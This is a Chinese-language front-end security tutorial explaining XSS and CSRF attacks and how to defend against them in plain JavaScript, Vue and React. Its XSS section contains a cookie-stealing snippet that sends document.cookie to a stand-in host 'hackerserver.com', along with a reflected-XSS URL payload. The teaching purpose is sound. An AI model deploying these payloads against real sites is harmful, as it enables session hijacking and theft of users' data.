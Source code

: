 ```yaml
---
sidebar: auto
sidebarDepth: 2
---
```


# 网络安全

## 重要性
随着互联网的发达，各种WEB应用也变得越来越复杂，满足了用户的各种需求，但是随之而来的就是各种网络安全的问题。了解常见的前端攻击形式和保护我们的网站不受攻击是我们每个优秀fronter必备的技能。

## 分类
- XSS攻击
- CSRF攻击
- 网络劫持攻击(运营商劫持)
- 控制台注入代码
- 虚假网站钓鱼

## XSS攻击
XSS是一种经常出现在web应用中的计算机安全漏洞，为了和 CSS 区分，这里把攻击的第一个字母改成了X，于是叫做XSS，它允许恶意web用户将代码植入到提供给其它用户使用的页面中。比如这些代码包括HTML代码和客户端脚本。攻击者利用XSS漏洞旁路掉访问控制——例如同源策略(same origin policy)，从而发起非法行为和获取网站的敏感数据。

### 发起方式
**实施XSS攻击需要具备两个条件**
- 一、需要向web页面注入恶意代码, 利用表单和url地址栏的查询字符串注入js非法代码
- 二、这些恶意代码能够被浏览器成功的执行

**XSS攻击的主要目的**
- 一、窃取Cookies和私信信息，发送到黑客网站上
```js
var i=document.createElement("img");
document.body.appendChild(i);
i.src = "http://www.hackerserver.com/?c=" + document.cookie;
```
- 二、发起非法行为
```js
地址栏：
http://www.xxx.com/?id=" /><script>alert(/xss/)</script><br x="

把id放入到img之后最终反射出来的HTML代码：
<div>
    <img src="/images/handler.ashx?id=" /><script>alert(/xss/)</script><br x="" />
</div>
```

### 经典案例
[CSDN注入](https://www.secpulse.com/archives/17830.html)  
[七种主要的XSS案例](https://www.anquanke.com/post/id/86585)

### 防范措施
DOM 型 XSS 攻击，实际上就是网站前端 JavaScript 代码本身不够严谨，把不可信的数据当作代码执行了。
- 在使用 .innerHTML、.outerHTML、document.write() 时要特别小心，不要把不可信的数据作为 HTML 插到页面上，而应尽量使用 .textContent、.setAttribute() 等。
- 转义HTML，过滤用户输入的 检查用户输入的内容中是否有非法内容。如<>（尖括号）、”（引号）、 ‘（单引号）、%（百分比符号）、;（分号）、()（括号）、&（& 符号）、+（加号）等。、严格控制输出。
- 如果用 Vue/React 技术栈，并且不使用 v-html/dangerouslySetInnerHTML 功能，就在前端 render 阶段避免 innerHTML、outerHTML 的 XSS 隐患。
- DOM 中的内联事件监听器，如 location、onclick、onerror、onload、onmouseover 等，a标签的 href 属性，JavaScript 的 eval()、setTimeout()、setInterval() 等，都能把字符串作为代码运行。如果不可信的数据拼接到字符串中传递给这些 API，很容易产生安全隐患，请务必避免。
```js
 <!-- 内联事件监听器中包含恶意代码 --> 
 < img   onclick = "UNTRUSTED"   onerror = "UNTRUSTED"   src = "data:image/png," > 
 <!-- 链接内包含恶意代码 --> 
 < a   href = "UNTRUSTED" > 1 </ a > 
 < script >  
 // setTimeout()/setInterval() 中调用恶意代码 
setTimeout( "UNTRUSTED" )
setInterval( "UNTRUSTED" )
 // location 调用恶意代码 
location.href =  'UNTRUSTED' 
 // eval() 中调用恶意代码 
 eval ( "UNTRUSTED" )
  </ script > 
```


## CSRF攻击
攻击者盗用了你的身份，以你的名义发送恶意请求，对服务器来说这个请求是完全合法的，但是却完成了攻击者所期望的一个操作，比如以你的名义发送邮件、发消息，盗取你的账号，添加系统管理员，甚至于购买商品、虚拟货币转账等。
Cookie是按照Domain存储的，当请求一个网站的时候，浏览器会自动把这个网站的Cookie发送过去。

### 发起方式
1. 用户C打开浏览器，访问受信任网站A，输入用户名和密码请求登录网站A；
2. 在用户信息通过验证后，网站A产生Cookie信息并返回给浏览器，此时用户登录网站A成功，可以正常发送请求到网站A；
3. 用户未退出网站A之前，在同一浏览器中，打开一个TAB页访问网站B；
4. 网站B接收到用户请求后，返回一些攻击性代码，并发出一个请求要求访问第三方站点A；
5. 浏览器在接收到这些攻击性代码后，根据网站B的请求，在用户不知情的情况下携带Cookie信息，向网站A发出请求。网站A并不知道该请求其实是由B发起的，所以会根据用户C的Cookie信息以C的权限处理该请求，导致来自网站B的恶意代码被执行。 

### 图解流程
![图解CSRF](https://jasonandjay.github.io/study/security/csrf.png)

#### 防范措施
CSRF攻击是攻击者利用用户的身份(Cookie)操作用户帐户的一种攻击方式，我们可以利用修改登录态的位置（由cookie中放到地址栏或者自定义请求头部）和refer的判断来防御CSRF攻击，由前端和服务端配合一起解决CSRF攻击。
- **验证HTTP Referer字段**  
根据 HTTP 协议，在 HTTP 头中有一个字段叫 Referer，它记录了该 HTTP 请求的来源地址。在通常情况下，访问一个安全受限页面的请求来自于同一个网站，比如需要访问 http://bank.example/withdraw?account=bob&amount=1000000&for=Mallory，用户必须在 bank.example网站发起请求，referer的域名一定指向bank.example。如果 Referer 是其他网站的话，则有可能是黑客的CSRF攻击，拒绝该请求。但Referer值是由浏览器提供的，服务端可以绕过这个限制修改Referer字段发起攻击。
- **在HTTP头中自定义属性并验证**  
这种方法是使用token并进行验证，把token的位置由Cookie移到http请求的头部，使第三方网站无法盗用身份信息。解决了在请求地址栏中加入token的不便，同时通过 XMLHttpRequest请求的地址不会被记录到浏览器的地址栏，也不用担心token会透过 Referer泄露到其他网站中去。
- **添加验证码操作**  
增加与用户的互动，即便是最简陋的验证码也能起到很好的效果

## XSS与CSRF之间的区别
| 攻击类型 | 字面理解 | 宿主网站 | 攻击方式|
| ------- | -----  | :----:  | ---- |
| XSS(cross site script)|跨站脚本攻击，在别人的网站注入JS脚本以触发非法操作或者获取别人网站的私密信息| A网站 | 给A网站注入JS脚本|
| CSRF(cross site request forgery)|跨站请求伪造，在钓鱼网站伪装成正常网站，非法使用浏览器自带Cookie的机制发起伪造正常网站的请求| A网站 | 在B网站借助A网站的Cookie，伪造发起A网站的请求|


## 在Vue与React中的防范措施
- JSX中防止XSS注入攻击
  - React DOM 在渲染所有输入内容之前，默认会进行转义。它可以确保在你的应用中，永远不会注入那些并非自己明确编写的内容。所有的内容在渲染之前都被转换成了字符串。这样可以有效地防止 XSS（cross-site-scripting, 跨站脚本）攻击。
  - dangerouslySetInnerHTML 是 React 为浏览器 DOM 提供 innerHTML 的替换方案。但当你想设置 dangerouslySetInnerHTML 时，需要向其传递包含 key 为 __html 的对象，以此来警示你。

- 在Vue中尽量不要使用v-html
  - 在网站上动态渲染任意 HTML 是非常危险的，因为容易导致 XSS 攻击。只在可信内容上使用 v-html，永不用在用户提交的内容上。
